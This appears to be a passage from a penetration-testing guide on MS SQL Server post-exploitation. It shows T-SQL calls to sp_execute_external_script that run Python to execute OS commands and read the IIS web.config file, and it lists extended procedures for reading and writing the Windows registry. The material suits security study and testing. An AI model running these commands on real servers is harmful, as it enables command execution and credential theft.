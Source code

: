 ![](<../../images/image (393).png>)

Example using configured python to perform several actions:

```sql
# Print the user being used (and execute commands)
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("getpass").getuser())'
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("whoami"))'
#Open and read a file
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'
#Multiline
EXECUTE sp_execute_external_script @language = N'Python', @script = N'
import sys
print(sys.version)
'
GO
```

### Read Registry

Microsoft SQL Server provides **multiple extended stored procedures** that allow you to interact with not only the network but also the file system and even the [**Windows Registry**](https://blog.waynesheffield.com/wayne/archive/2017/08/working-registry-sql-server/)**:**

| **Regular**                 | **Instance-Aware**                   |
| --------------------------- | ------------------------------------ |
| sys.xp_regread              | sys.xp_instance_regread              |
| sys.xp_regenumvalues        | sys.xp_instance_regenumvalues        |
| sys.xp_regenumkeys          | sys.xp_instance_regenumkeys          |
| sys.xp_regwrite             | sys.xp_instance_regwrite             |
| sys.xp_regdeletevalue       | sys.xp_instance_regdeletevalue       |
| sys.xp_regdeletekey         | sys.xp_instance_regdeletekey         |
| sys.xp_regaddmultistring    | sys.xp_instance_regaddmultistring    |
| sys.xp_regremovemultistring | sys.xp_instance_regremovemultistring |
